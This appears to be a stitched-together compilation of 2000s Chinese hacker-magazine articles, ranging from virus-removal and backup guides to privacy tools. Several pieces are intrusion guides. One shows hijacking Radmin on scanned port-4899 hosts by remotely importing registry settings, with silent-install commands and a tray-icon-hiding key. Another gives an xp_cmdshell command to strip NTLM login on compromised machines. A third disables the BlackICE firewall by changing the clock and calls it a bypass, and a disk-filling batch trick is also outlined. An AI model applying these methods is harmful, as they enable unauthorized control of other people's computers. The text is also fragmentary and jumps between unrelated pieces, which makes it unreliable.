进一步介绍使用 `depends.exe` 检查文件是否为捆绑文件，强调其为绿色软件、无需安装，界面直观，适合初学者快速排查可疑程序。


> （本文涉及到的工具：depends.exe、WinHex，见盘有收录）

## ACDSEE 也改文件时间戳

介绍使用 ACDSEE 修改文件时间戳的方法：选中文件后通过菜单“工具→调整图像时间戳”，进入对话框设置创建日期、修改日期和时间等属性。


这时系统会让我们选择要调整到的日期和时间，如图3。


- 使用来自其他文件的日期和时间。  
- 使用特殊的日期和时间。  
- 直接到新开始日期和时间。  
- 按设定的显示数量换日期和时间（允许设置换向后正数或负数小时）。

选择好自己所需要的以后，就只要按下“调整时间戳”就 OK 了。最后希望大家能发现生活中的点点滴滴，来给我们的计算机应用带来方便。

## 进程管理逮现形

### esteem procs

在 Win2000 及更高版本的操作系统中，我们可以通过 Ctrl+Alt+Del 组合键启动任务管理器查看当前运行的程序、进程以及 CPU 和内存使用情况。任务管理器信息并不够全面，管理功能不强，而 esteem procs 可更好地进行系统任务管理。

进程列表中显示的是当前系统所有程序及其详细信息，包括进程标识符、程序可执行文件、目录、优先级以及内存和 CPU 占用等。可通过右击并选择“Kill Process”结束进程。

系统进程中嵌入了自己的线程，还可以在 Modules、Thread、Windows 等标签页中查看更细节的信息并执行相关操作。右下方 Refresh Rate 为信息刷新频率，系统信息栏包含 Uptime、Processes、CPU Usage、PhysicalMemUse、PageFileUse、VirtualMemUse、CPU Frequency 等。


通过 esteem procs，不仅可快速查看系统进程各项信息并增强对进程“生杀予夺”的权限，配合 DLL/线程操作还能更顺利定位和处理可疑进程与模块。

## 天导 BlackICE 的烦恼

目前使用 BlackICE 防火墙的朋友很多，它虽“其貌不扬”却是居家防护的常见工具。笔者在使用过程中有一个有趣的小发现，特与大家分享。

只要把系统时间调整为 2099 年前后，BlackICE 防火墙服务会出现异常（如自动终止），如图1所示。


这样我们就能达到目的。笔者使用 Windows XP SP2 时，发现多数情况下可将系统时间调整为 2099 年，如图2所示。


若继续上调系统时间到更高年份，在部分系统（如 Windows XP SP1）可能出现错误提示，例如 BlackICE 服务无法启动、某些软件无法安装。解决方式是把系统时间调回正常范围即可。

这个小发现除了可解释部分安装或启动异常外，对入侵测试中的旁路思路也有启发：当目标依赖时间机制时，调整系统时间有时可作为简便实用的一招。

## 系统安全防护神——终极防线

目前有许多安全软件可供我们使用，“终极防线”就是其中的一款。它集各种实用功能于一身，可以保护我们的系统安全，让我们的系统免受病毒和非法程序的侵害，同时它还能自动备份硬盘数据、清理系统中的垃圾，让我们的系统更安全、更稳定！

### 一、非法程序的防护

“终极防线”的最大优点就是监控所有病毒可能用到的系统服务功能，如文件挂钩服务。Windows 系统的病毒就是通过它进行拦截文件操作，来感染可执行文件的。点击主菜单选择“系统监视”即可打开该面板。点选“磁盘直接写操作监视”，可拒绝写磁盘扇区，用于文件和磁盘的保护功能；而“反黑客木马程序入侵”按钮，则是通过对注册表和系统目录的监视阻止木马的入侵。不过，如果把这个按钮按下去，在安装某些软件时会引起误报，所以可以关闭该选项后再安装软件，如图1。


### 二、病毒的防护

“IFS 系统服务监视”可拒绝一切程序对文件读写的拦截，包括防火墙，所以它的该项功能可以使防火墙失效，但该功能可防止一切文件型病毒的感染。建议选上。而它的另一个按钮“病毒疫苗”，可以模拟常见病毒的驻留标志，使病毒误以为本机已感染，从而起到防病毒的作用。但如果安装了杀毒软件就会引起误报，所以如果你已有杀毒软件，不用选此项，如图2。


### 三、查看运行的用户程序

点击菜单，选择“系统进程监视”，就可以启开“用户程序”了。系统程序并不是人人都看得懂，也不太实用，但你自己启用了什么程序，你总该知道的。如果你并没有启用，那这个程序就有问题，你便可以毫不客气地选中它，然后干掉它，如图3。


### 四、文件/目录的保护

点选主菜单，选择“文件目录保护”，即可启动该窗口，见图4。你可以选择不可编辑的写保护，也可以选择更严厉的“加上拒绝任何操作的保护”，然后用户只需从电脑中选择需保护的文件，点住鼠标左键拖至对话框中，看到鼠标头出现“+”时松开左键，即可完成保护设置。完成禁止设置后，单击“保存”按钮确认，确认后保护设置立即生效。在任务添加对话框中选择已完成的设置，单击鼠标右键，你会看到“编辑、删除、暂停受护黑名单”可用状态。选择“编辑”进入“文件监控任务设置”界面，可以对已完成的保护任务重新设置；“删除”将用于删除任务。你可根据自己需要来选择，如图4。


### 五、自动备份

在主界面中点击“文件自动备份”进入该界面，如图5。善用自动备份与恢复功能，将可以避免工作中的误操作带来的影响。如果是第一次使用本功能的话，这里将是空白。此对话框同样支持拖放功能，使用拖放功能即可完成备份任务设置。此界面使用方法与“文件目录保护”界面很相似，使用时可以参照这部分，如图5。


### 六、垃圾文件的清理

点击菜单选择“系统优化”再选“垃圾文件清理”，使用这一功能，你能轻松清除系统中不需要的垃圾文件。首先在“查找路径”中选中需要清理的硬盘，再勾选所要清理的常见垃圾文件。单击“开始查找”键，“终极防线”将搜索目标盘并找到垃圾文件。如果在搜索之前复选“找到后删除”项，则“防线”在找到垃圾文件后自动将其删除。自定义垃圾文件允许你自定义垃圾文件的类型，如图6。


### 七、忽略任务

点击菜单选择“用户设置”，再选“忽略任务”，用户在这里可以通过手动设置，对自己信赖的程序予以忽略监控。比如对话框中的默认忽略程序，如 Windows 扫描、磁盘清理、碎片整理等程序，都是会用到类似病毒发作时所使用的 Windows 底层功能，所以在这里将其监控忽略掉，以免“终极防线”误报。本对话框同样支持拖放功能，单击鼠标右键可弹出功能操作对话框，如图7。


### 八、小结

“终极防线”是一个系统监视程序，能防御对 Windows 系统的各种已知未知病毒，如 CIH、PE_CAW 等。但它只是个病毒免疫程序，只能防不能杀，因此请务必确认在一台没有病毒感染的机器上运行。但如果你利用文件保护功能把某些重要文件、目录保护起来，那同样能起到预防作用。

# 傻瓜黑客

电脑和网络的神奇之处就在于，它有能力为你建立属于你自己的一个小家园，但如何让你在这个小家园住得安全舒心，你采用筑巢精灵这款安全工具就明白了。


### 一、程序管理之隐藏你的重要程序

有很多工具软件都能查看本系统的进程，以便确定运行的程序是否有木马之类的可疑东西，筑巢精灵也不例外。启动它的主程序，在请输入密码的地方点击“确定”，开启“程序管理”按钮，就可以查看本机运行的程序以及进程列表，并可以随时终止可疑程序。但这个“程序管理”界面，还有一个你意想不到的功能，那就是“隐藏程序”和“冻结程序”……如果你选择“冻结程序”，该程序在本程序中将不能再使用，之后可重新启用。


### 二、独特的文件加密功能

筑巢精灵的加密文件可以看到，但你看到的只是乱码。这种加密方式通过“文件加密”按钮进行：打开文件、输入路径和文件名、设置加密密码，点击“加密解密”后即可完成。再次输入正确密码可恢复查看。


### 三、功能全面的“其它设置”

在它的“其它设置”按钮里，有很丰富的选项，比如“禁用鼠标右键”“禁用 Ctrl+Del+Alt”“隐藏开始钮”等。这些功能可以在同一窗口中随时启用和恢复。


### 四、后语

筑巢精灵还可以修复 IE、进行开机设置等。你如果能用活这个工具，爱机的安全性就会上一个新台阶。（本文涉及的工具筑巢精灵，光盘有收录）


前几日偶炒了老板鱿鱼回家休息，晚上用小猫上网……想起白天看过的《狙击4899肉鸡》一文，我也动手玩玩4899。扫出一批开了 4899 端口的 IP 地址，但在 Radmin 里连接时弹出要求偶输入密码验证的框。

忽然想到一个问题：Radmin 的密码保存在哪里？我把服务端装在自己机器上，设置好密码，观察安装目录与卸载后变化，判断它与注册表关系密切。

为了验证自己的想法，我先将密码清空，导出注册表中的 Radmin 部分保存为 0.reg，然后打开 Resplendent Registrar 进行监视。第一步把密码改为 8 位并导出 8.reg，继续观察变化。


再把 8 位密码改成 15 位，保存为 15.reg，监视器又出现新的变化。


第二步：把服务端密码再次清空，导出 00.reg，并与 0.reg、8.reg、15.reg 作比较（被选择部分见后续图3、图4、图5）。


设置可以更改原先的密码设置（不知道大家看到这里，有没有发现偶的良苦用心？）。

通过上面实调测试的操作，得到一个对我们有用的入侵方法：大家先备份好一个设置好的 Radmin 服务端的注册表，在以后扫描到有 4899 端口开放的肉鸡、连接时又有密码保护的情况下，只要把早已备好的注册表远程导入即可轻松搞定，为我们省下了宝贵的时间，何乐而不为呢？但毕竟有一个前提条件啊，你们得想办法搞到对方的管理员帐号，不管是拿字典去试（噱噱现成着：“IC、IP、IQ 卡，通通告诉我密码！”），还是溢出后添加管理员用户（后者的方法最好，对方觉察不到）。

最后，我再讲一个关于 Radmin 的常用命令和注册表结构功能，以其默认服务端 r-server.exe 为例：

```text
r-server.exe /start 运行服务
r-server.exe /setup 服务端设置
r-server.exe /stop 停止服务
r-server.exe /install 安装服务
r-server.exe /uninstall 移除服务
r-server.exe /silence /install 以安静模式安装服务
r-server.exe /silence /uninstall 以安静模式移除服务
```

大家看下图6。


在 Radmin 的注册表部分里，  
`[HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters]` 部分是关于 Radmin 服务端的“选项”和“设置口令”。

而 `[HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Users]` 部分则是在添加了“使 NT 安全”→“许可”后才会出现的，其参数对应了用户的信息。

各部分的参数详解：

```text
"NTAuth"=hex:09,00,00,00 对应“使用 NT 安全”的用户ID
"NTAuthEnabled"=hex:01,00,00,00 如果改为 "NTAuthEnabled"=hex:00,00,00,00 则禁用“使用NT安全”选项
"Port"=hex:23,13,00,00 对应用户选择的端口设置，当前值为默认 4899
"Timeout"=hex:0a,00,00,00 对应“连接确认”的“超时连接（单位为秒）”
"EnableLogFile"=hex:00,00,00,00 对应“日志”的“日志文件名”选项，改为 "EnableLogFile"=hex:01,00,00,00 则“日志文件名”为选中状态
```

不用我说，大家也能看出区别来了吧？

试验到这里，我突然有了一个灵感：如果我们把关于 Radmin 服务端的设置（包括密码和 NT 安全设置）导入到注册表，替换掉原先的注册表，是不是会出现另外一种对我们相当有用的情况呢？我刚才的密码已设为空，连接时不会出现密码验证对话框，所以我直接把 8.reg 导入，然后再在 Radmin 中连接我自己（即 127.0.0.1），果然出现要求验证的对话框，点“取消”之后，我又把 15.reg 导入注册表，对 127.0.0.1 的图标连接，在弹出的对话框中输入 8 位密码，提示“密码错误”；我又再次将 8.reg 导入，连接后输入 15 位密码，提示“密码错误”；我再输入 8 位密码，测试连接成功，在我的面前出现一大堆我的桌面（大家可以自己做个同样的试验，我就不再截图了）。成功了！说明直接导入我们自己的……

```text
…日志路径可用
"LogFilePath"=d:\\admin2\\logfile.txt
"FilterIp"=hex:00,00,00,00
"DisableTrayIcon"=hex:01,00,00,00
"AutoAllow"=hex:00,00,00,00
"AskUser"=hex:00,00,00,00
…
```

```text
用户许可选项…
"EnableEventLog"=hex:00,00,00,00
"Parameter"=hex:50,81,60,1b,6f,2d,ac,9d,fd,3a,f1,1d,9a,1f,9d,38
…
```

我要说的都写在这里了，本来当晚我就想攻破几个肉鸡的帐号，但是由于偶用的小猫，速度慢，没能成功，又恰老妈说偶在浪费电话费，就睡觉去了。

## 让你的 Office 文档从此不再泄密

Office 文档中包含了用户的许多机密，手动清除不仅麻烦而且容易漏项。在此向您推荐一款来自微软的小软件 rhdtool.exe，它能将隐藏在 Office 文档中的秘密一网打尽，包括：批注、以前的作者和编辑者、用户名、个人摘要信息、修订标记、版本、VB 宏、传送名单、电子邮件头、方案备注。让你的 Office 文档从此不再泄密！

| 字段 | 内容 |
|---|---|
| 文件名 | rhdtool.exe |
| 下载地址 | http://download.microsoft.com/download/9/6/4/964954f5-f7cd-4702-ad6f-44d8fbe5765/rhdtool.exe |
| 文件大小 | 264KB |
| 最新版本 | 1.1 |
| 适用范围 | Word、Excel、PowerPoint |


图1

隐藏数据是否真的全部清除了呢？让我们来验证一下。双击前一步生成的新文件 1232.doc，你就会发现它已自动为其设置了“建议以只读方式打开”属性，如图2所示，不管你点击“是”或“否”都可以，只不过单击“是”后，不能以原文件名存盘，但这不影响下面的验证结果。单击“文件”下的“属性”，你就会发现其下是一片空白，当然，那些秘密的隐藏数据被一网打尽了。


图2

### 一、软件安装

默认的安装路径是 C:\Program Files\Microsoft Office\Remove Hidden Data Tool。安装后不会生成启动快捷方式，而是在 Office 文档的“文件”菜单下生成一个命令项——“删除隐藏数据”，也就是说它相当于 Office 程序的一个加载项。

### 二、软件使用

下面以清除 Word 文件中的隐藏数据为例进行说明。首先，打开一个 Word 文件。依次单击“文件→删除隐藏数据”（如果要进行处理的文件尚未存盘，请先进行存盘操作），弹出如图1所示的对话框。单击“浏览”，为清除隐藏数据后的文件指定保存位置和文件名（为方便后面的叙述，设文件名是：1232.doc）。然后按提示单击“下一步→完成”即可。

### 三、软件使用注意事项

如果在“文件”菜单中未看到“删除隐藏数据”命令，请检查下列设置：在“工具”菜单中，单击“选项”，然后单击“安全性”选项卡；在“宏安全性”下，单击“宏安全性”，单击“可靠发行商”选项卡，选中“信任所有安装的加载项和模板”复选框，然后单击“确定”两次即可。

（文章中涉及到的程序 rhdtool.exe 已经收录于光盘中）


剪贴板是我们使用电脑时常用的一个小工具，在上网时会经常复制重要信息（如邮箱密码、注册表信息等），但这些信息可能被他人通过邮件回传获知，说明剪贴板信息存在被窃风险。

剪贴板是与 ClipBook 服务相关联的。依次单击“开始→程序→管理工具→服务”，在系统服务中双击 ClipBook 服务项。在“ClipBook 属性”中查看当前状态；如处于“已禁用”，可先“停止”，再将“启动类型”设为“已禁用”，确定并重启后，ClipBook 服务便被停用。此外，ClipBook 还与 Network DDE 服务有关，停用 Network DDE 后可降低非法远程查看剪贴板信息的风险。

打开 IE，依次单击“工具→Internet选项”，在“安全”标签中点击“自定义级别”，找到“脚本”设置项，将“允许通过脚本进行粘贴操作”设为“禁用”。如果使用 IE 5.0/5.5，建议升级到 IE 6.0 SP1 或更高版本；也可使用 Mozilla Firefox，以减少风险并更清晰识别 SSL 加密网站。

# 傻瓜黑客

Chinaren 校友录的班级相册上传可以通过简单快捷的方法，用户可在任意空间上传精彩瞬间和班级照片供朋友浏览。但若班级管理中将班级相册设置为“不公开”，只有登录并在班级认证通过的用户才能看到照片。未认证用户点击照片后，本应出现“校友录提示：班级管理员已将班级相册设置成不公开状态”之类提示……

其实解决方法也不难，只要在班级管理中将班级留言也设置为“不公开”，就能避免此漏洞。

### 小鱼修炼中

很多菜鸟上网时是不是经常会中一些 QQ 尾巴病毒，唉……说起来我就气，我可是深受其害，所以今天将我的一些清除办法拿出来和大家分享。首先是最近比较流行的尾巴。

`http://dvd.qq92.com` 删除方法

- 警惕程度：★★★
- 先终止下面的进程：
  - `C:\WINDOWS\intranet.exe`
  - `C:\DOCUME~1\lwb\LOCALS~1\Temp\smss.exe`
  - `C:\WINDOWS\System32\winsym.exe`
  - `C:\WINDOWS\system32\winpass.exe`

关闭所有窗口，同时按下 CTRL+ALT+DELETE，在打开的窗口中选中要终止的进程，点击“结束任务”或“结束进程”。其中 smss.exe 与系统进程同名，若无法终止，建议使用 HijackThis 等工具处理。

```text
O4 - HKLM\..\Run: [smss] C:\WINDOWS\smss.exe
O4 - HKLM\..\RunServices: [smss] C:\WINDOWS\smss.exe
O4 - HKCU\..\Run: [smss] C:\WINDOWS\smss.exe
O4 - HKCU\..\RunServices: [smss] C:\WINDOWS\smss.exe
```

修复后，清空 IE 临时文件（工具→Internet 选项→删除文件，勾选“删除所有脱机内容”）。重启到安全模式，显示隐藏文件并删除相关可疑文件。

```text
C:\WINDOWS\intranet.exe
C:\WINDOWS\System32\winsym.exe
C:\WINDOWS\system32\winpass.exe
C:\WINDOWS\smss.exe
```

## http://www.joyiex.com 删除方法

警惕程度：★★。  
“看看啊，我最近照的照片”才扫描到网上的。看着“http://www.joyiex.com”，大家一看到这个信息就头疼却无能为力。下文介绍其机理与处理方式。

该病毒利用内存中的程序监控注册表以及硬盘中的病毒文件，一旦删除会立刻重建。其 Shell 为 explorer，在系统目录下生成 msapi.exe 与 msapi.dll；直接删 exe 会再生，删 dll 则系统可能不允许。

可先干掉内存监控进程：用文本文件重命名为 msapi.exe 覆盖原文件并重启，再手动删除 msapi.dll。文中还提到可借助 qqtails.exe 修复被锁定的注册表项。

## www.mydj2005.com 删除方法

```text
开始 → 运行 → 输入 CMD

TASKKILL /IM explorer.exe

删除 msapi.exe、msapi.dll，再运行系统目录中的 explorer.exe，接着运行 regedit。

修改：
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon

将：
Shell = Explorer.exe C:\WINNT\system32\msapi.exe

改为：
Shell = Explorer.exe
```

- `%system%\dow01.exe`
- `%system%\down2.exe`
- `%system%\huangjiaju.exe`
- `%system%\mdj2005.exe`
- `%system%\Microsoft.exe`
- `%system%\system32.exe`
- `%system%\windows.exe`

注：`%System%` 默认目录为 `C:\Windows\System`（Win95/98/Me）、`C:\Winnt\System32`（WinNT/2000）或 `C:\Windows\System32`（WinXP）。  
并删除 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce` 中启动项，恢复 TXT 文件关联。

## QQ 速配（Worm.QQMsg.Only.y）

警惕程度：★★★★★。蠕虫病毒，通过 QQ 传播，影响 WIN9X/NT/2000/XP。运行后复制到 `system32`，伪装为 `Explorer.exe`，修改注册表实现开机自启，并篡改 `.ini` 与 `.txt` 文件关联，用户打开相关文件时先执行病毒。

病毒运行后驻留内存，查找并结束防火墙和任务管理器；查找 QQ 聊天窗口自动发送消息（含链接），并不断变更发送内容与下载文件。

删除方法：安全模式下删除 `%windows%/smss.exe`，清理注册表中与 smss 相关项，并修复 `startpage`（IE 默认首页）。

> `%System%` 默认目录为：  
> `C:\Windows\System`（Windows 95/98/Me）、`C:\Winnt\System32`（Windows NT/2000）或 `C:\Windows\System32`（Windows XP）。

若上述方法仍无效，可到文中给出的论坛地址继续讨论；文末提示相关程序 `qqtails.exe` 已收录于光盘。

## 几秒钟把你的硬盘填满

介绍利用 DOS 批处理快速生成大量文件以占满磁盘空间的方法与原理，包含循环、重定向与重复写入等思路，并给出实验与清理建议。

```text
示例思路（文中多处出现）：
for /l %%i in (1,1,1000) do ...
md d:\www%%c
type d:\1.txt >> ...
del /q ...
```

## 万花丛中过，片叶不沾身

### ——文件隐藏新工具加密奇兵

yyuu

如果你的电脑上有属于自己秘密的文档，如果你的电脑为多人共用，而你不想让其他人共享你的资料，如果你有某些应用程序不想让他人执行使用，那么就用加密工具对它们进行加密吧，我推荐使用“加密奇兵”。

- 软件版本：V1.0.4
- 适用平台：Windows 9x/2k/XP
- 软件性质：共享软件
- 软件大小：1.94MB
- 下载地址：http://qweb.nease.net/dataxiz/ihpro104setup.exe

“加密奇兵”是一款能使文件彻底消失的加密软件，采用外嵌式信息隐藏技术，能把机密信息加密后隐藏到载体文件中。载体文件支持任意类型，可在任意文件中隐藏任意数量、任意大小的文件；并提供授权盘加密、虚拟打开等功能，兼顾安全与操作便利。

首次运行本程序时会弹出窗口，要求输入进入程序的密码；建议不要设置过于复杂且易遗忘的口令。

## 1 隐藏文件

点击图 1 右侧上部“浏览”按钮选择载体文件，点击下方“添加文件”按钮选择待隐藏文件，再点击“开始隐藏”按钮，弹出“设置密码”窗口（图 2），设置密码后确认即可开始隐藏。

在“设置密码”窗口中可设置提取密码与授权盘。隐藏完成后需妥善保存载体文件，否则将无法正确提取隐藏内容。

建议选中“成功后删除机密文件”和“成功后把载体文件设为只读属性”选项：前者便于操作，后者可提高数据安全性，防止载体被误改。

> **小提示**：如果使用“授权盘加密”，请妥善保管授权盘。授权盘损坏或格式化会导致无法解密文件。建议使用不易被格式化且稳定的介质。

## 2 提取文件

在软件主界面点击“浏览”选择含有机密信息的载体文件，点击“开始提取”，输入正确密码后即可提取。若选择“虚拟打开”方式，提取后会进入“虚拟文件夹”窗口，可编辑、增删并自动回写到载体。

如果选择“释放到磁盘”选项，程序会把载体中隐藏的文件提取并保存到指定路径，而不会显示“虚拟文件夹”窗口。好了，快去下载“加密奇兵”来使用吧！（文中涉及程序已收录于光盘）

## 去除 NTLM 新招

张鸿鹏

各位黑友在使用菜刀得到肉鸡的 CMDSHELL 时，常会遇到 NTLM 验证问题。这里提供一种新的去除验证思路，并欢迎交流更好的办法。

```text
tntadmn config soc = --ntlm
exec master.dbo.xp_cmdshell "tntadmn config soc = --ntlm"
```

以上方法可在特定场景下绕过验证限制，若有更简便方案，欢迎在论坛讨论。

## 远程遥控下载利器——Download2Home

小柱

下载，可能大家都会，可远程遥控下载你们会吗？比如，我们在网吧中远程遥控自己家中的电脑进行下载，或者是在公司里远程遥控自己家中的电脑进行下载，这可以吗？当然，使用 Download2Home 就可以。我们只要在家中的电脑上安装 Download2Home，并配置好，然后使用单位的电脑登录网站，就可以遥控指挥家中的电脑进行下载操作了。

在家中的电脑中安装好 Download2Home（下载地址：http://www.download2home.com/soft/current.zip，软件大小 4.5MB）并运行，其界面如图 1，同时会弹出如图 2 的一个窗口，大致意思是说你需要创建一个用户，点击链接（http://www.download2home.com）后来到网站首页，如图 3。

## 1 注册账号

在页面左侧“Create user account”下方输入你的用户名和密码，然后点击“Go!”按钮进行注册，如果你的用户名没被其他用户注册的话，网站就会提示“SUCCESSFULLY DONE, NOW YOU CAN USE D2H”，表示你已经在 Download2Home 网站注册成功了。

## 2 配置 Download2Home

在图 1 的界面中，先在左边“Save Downloads Dir”下选择设置软件下载后的存放目录，然后窗口上部输入刚才在网站上注册成功的用户名“User:”和密码“Password:”，然后点击“Connect”按钮，就可连接到 Download2Home 服务器，接下来你就可以远程指挥家里的电脑进行软件下载了。

## 3 远程下载

要想实现在别的地方指挥家中的电脑进行下载，那么家中的计算机一定要打开，并且连上了网络，而且运行了 Download2Home 软件，并做了成功登录，否则遥控下载不可能实现。在单位或网吧上网时发现了需要下载的好软件，立即登录 http://www.download2home.com，在“Send a download command”下面输入你的注册名、密码，并在 LINK 后输入软件下载地址，然后点击“Go!”按钮，给家中的电脑发送下载命令。如果反馈“DOWNLOAD SUCCESSFULLY SENT”信息（绿底黑字），说明下载指令发送成功了，家中的计算机便会立刻帮你下载刚刚所输入网址上的文件，一切就是这么容易简单。

需要注意的是：下载网址类型现只支持 `http://`、`ftp://`、`ed2k://`，希望日后的版本能支持更多种的续传软件及下载网址形态；如果你想使用断点续传软件也可以，网站目前支持 Download Accelerator Plus 及 GetRight 两种续传软件，在 Download2Home 网站上有下载链接，就在注册用户的下面。老网友对 GetRight 并不陌生，它可是老网友们使用最早的断点续传软件。

## 让注册表编辑器“失忆”

大家知道，在 Windows XP/2003 系统下的注册表编辑器具有记忆功能：当我们使用过注册表编辑器之后，它会记住我们最后访问的项。当有人再次运行注册表编辑器时，会自动定位到上次使用注册表编辑器时最后打开的那一项。虽然该功能在一定程度上方便了用户的使用，但也存在泄露用户秘密的可能。

具体方法是：当你要退出注册表编辑器之前，展开到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Applets\Regedit` 项，在右侧窗格中找到 `LastKey` 并将其删除，然后刷新一下即可。下次别人再使用注册表编辑器时就无法知道你曾访问过注册表的哪些信息了。

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Applets\Regedit]
"LastKey"=""
```

编辑完毕，另存为 clean.reg 文件备用。每次使用注册表编辑器之后，双击 clean.reg 文件把信息导入到注册表，即可清除该“记忆”功能。注意在 reg 文件内容最后一定要空一行，否则导入可能失败。

## GHOST 备份教程 + 135 端口的另类关闭

の天上人［HSP］

我们这些经常接触系统的菜鸟，碰到一些过去都没遇到过的系统问题时，怎么办？由于我们太菜，所以基本上遇到了这种问题时都很难解决，那我们不如做个备份，出错了我们把系统还原（有很多想进入网络技术的朋友都问我怎么做，现在就把方法写出来）！

在这里，我们使用 Ghost，赛门铁克公司的镜像制作工具（地球人都知道）！

### 一、制作镜像

第一步当然是先把 Ghost 下回来，不过可别存放到要备份的分区上！另外，要注意的是，Ghost 只能在 DOS 下运行，因此不能在 Windows 2000/XP/2003 系统下运行。重启后可使用 Win98 安装光盘或者别的工具引导至纯 DOS 下（如果系统上安装了 Windows 98 系统的话，可以在 Windows 98 下切换到 DOS 下来运行），当出现提示符后，运行 Ghost，假设 Ghost 是存放于 G 盘上。

```bash
g:
cd ghost
g:\GHOST\ghost
```

成功运行 Ghost 后，用键盘的“上”“下”“左”“右”控制完成显示条的选项。由于我们是做“分区的镜像”，所以选择 local → partition → to image，如图 1。

进入到选择硬盘的界面，如图 2，选择“OK”后来到分区选择的界面，如图 3。利用光标的上、下键选择要备份的分区（虽然 Ghost 不能在 Windows 2000/XP/2003 下运行，但是却完全可以识别出 FAT、FAT32、NTFS 分区），选择“OK”后接着来到了输入存放路径和输入文件名的地方，如图 4；通过 Tab 键可以切换输入点，都设置好了以后，点“Save”。随后的界面是选择镜像是否压缩，一般我都是选择“High”。还有最后一个对话框，问你是否开始执行备份，点“Yes”就可以了，接下来就是漫长的制作过程了！

### 二、还原镜像

系统崩溃了怎么办？别怕，反正我们已经做了备份。还是使用安装盘引导至纯 DOS 下，并进入 Ghost 的界面。由于这次的任务是恢复，所以我们选择 local → partition → from image，如图 5。然后来到选择镜像文件的界面，如图 6，和前边保存镜像文件时的界面几乎是一样的，只是按钮是“OPEN”而不是“SAVE”。然后就是问你要恢复哪块硬盘里的哪一个分区，选择好后，点“Yes”确认恢复，恢复结束后会提示重启系统，重启完毕以后就回到当初做备份时的状态了。

### 三、一个技巧

当我们备份好系统以后，打开压缩包内的 GhostExp.exe 文件，这是个镜像的浏览器。打开后在文件菜单那选择“打开”，并找到你的镜像文件。接下来（如果你的操作系统是 XP 就接着做，如果是 98 的话就可以跳过了，因为 98 没有这个 rpcss.dll 文件，所以就不介绍了）就打开“*（指系统盘）\windows\system32”，找到 rpcss.dll 文件，如图 7，并把这个 dll 复制到别的文件夹保存好，然后……

这里我们需要一个软件，就是 UltraEdit。打开它，并打开 rpcss.dll 文件，就是那个复制出来的 rpcss.dll 文件，选择“search”→“find”，查找“3100330035”也就是 16 进制的 135，如图 8。将其改为“3000300030”也就是“000”，然后选择“file”→“save”保存修改。

最后可以收尾了，打开先前打开过的 Ghost 浏览器，找到镜像里的 rpcss.dll，把它给删了，然后把修改好的 rpcss.dll 剪切并粘贴到 Ghost 浏览器里，保存后退出就可以了。这样当你再次恢复镜像后，135 端口就不会恢复了。

（文章中涉及到的程序 ghost8.0、UltraEdit 已经收录于光盘中）

## 远程色狼的窃取

无水

我们知道，目前微软的 Smart Display 可以远程控制电脑。这种无线屏幕的方式是利用 Windows XP 的远程桌面功能，将本地机器的桌面利用内部无线网络到 Smart Display 上来遥控本机电脑。但这样有时有一个局限性，因为机器中必须安装 Windows XP 操作系统，而且只能在内部局域网内一对一联线使用。那么如果电脑系统不是安装的 XP 系统，而且不在一个网络内，比如在异地，是否能远程控制电脑呢？答案是肯定的。我们只要利用宽带网络加上一个小小的免费软件，就可以达到我们需要的效果了。

首先你需要到软件官方网站下载 VNC 软件（下载地址为：http://www.realvnc.com/download.html），不过在下载的时候，会提示你输入一些信息，比如你的姓名、电子邮件等，填写好了之后点下面的按钮即可下载（如图 1）。特别需要注意的是，在 Deployment 一项中需要选择控制机器的数目，这个数字代表你遥控的机器最大数。

在软件的安装方面很简单，只要在被控一端的主机上安装这个软件即可。比如你想在单位的电脑中远程遥控在家里的电脑，只需要在家里的电脑中安装 VNC 软件即可。打开下载回来的 VNC 软件，按照软件提示一步一步安装即可（图 2）。

安装好软件后，我们需要在被控制的电脑上设置一些参数，进入“开始”→“程序”→“RealVNC”→“Run VNC Server”进入软件详细设置界面（图 3）。在设置界面中，你需要在“Password”旁的空格中输入远程遥控的密码，在“Display Name”用鼠标取消“AUTO”旁边的小勾，输入联线的端口号，在 VNC …

# 傻瓜黑客

其中，预置 Auto 时的端口号为 5800。若需要设置自己的端口号码，只要在 5800 上累加即可。如此，机器的端口号为 21，则这里输入 5821 就可以了（如图4）。设置好之后，按“OK”按钮即可。


然后输入被控端的电脑 IP 和设置的端口号即可。如被控制的机器 IP 为 218.10.87.178，那么你只要在 IE 浏览器中输入 http://218.10.87.178:5821/ 即可（这里的 5821 就是上面设置的端口号码）。然后会提示你输入密码，输入刚才设置的密码，进入后就能看到被遥控机器的桌面了。

设置好之后，你就可以在任何地方远程控制这台电脑了。比如你要在单位控制刚才安装了 VNC 软件的电脑，只要在单位的电脑中输入被控端电脑的 IP 和端口即可。

## 网络城隍“隐身”利器

### STEGANOS INTERNET ANONYM PRO 7

郭振江

当我们在网上冲浪时，一些网站可以记录下我们的 IP 地址，并且监视我们的上网习惯。比如，我们经常访问哪些站点，在这些站点上停留多长时间，下载什么软件，是否首次访问某个网站等。为了让网虫们保护好自己的一些隐私，我向各位介绍一款软件——Steganos Internet Anonym Pro 7。它能够有效地“伪装”上网者的相关信息，运行后的界面如图1。Steganos Internet Anonym Pro 7 的下载地址为 ftp://www.steganos.com/software/sia7int.exe。

Steganos Internet Anonym Pro 7 安装完成后，会成为 IE 浏览器的一个插件，在 IE 中会多出一个工具栏（图3）。激活 Steganos Internet Anonym Pro 7 的保护功能比较简单，点击 IE 工具栏上的“Surf anonymously”按钮即可。该按钮上的图标变成红色，表明你已经开始“隐身”。可以点击“Checking your anonymity”按钮打开测试页面观看效果（图4）。在旁边的一幅缩小的世界地图上，一个红点在不停地移动，显示匿名代理服务器的位置。在地址栏中动态地显示“伪装”后的 IP 地址。


Steganos Internet Anonym Pro 7 能够让上网者“隐身”的关键是使用匿名代理服务器。在系统每次启动之前，会自动更新匿名代理服务器的信息。用户实际上是通过这些匿名代理服务器来上网的。在开始“隐身”之前，点击主界面上的“Check servers”按钮，打开测试代理服务器窗口（图2），系统会自动测试这些服务器是否可用以及响应速度快慢，不合要求的服务器会被排除。

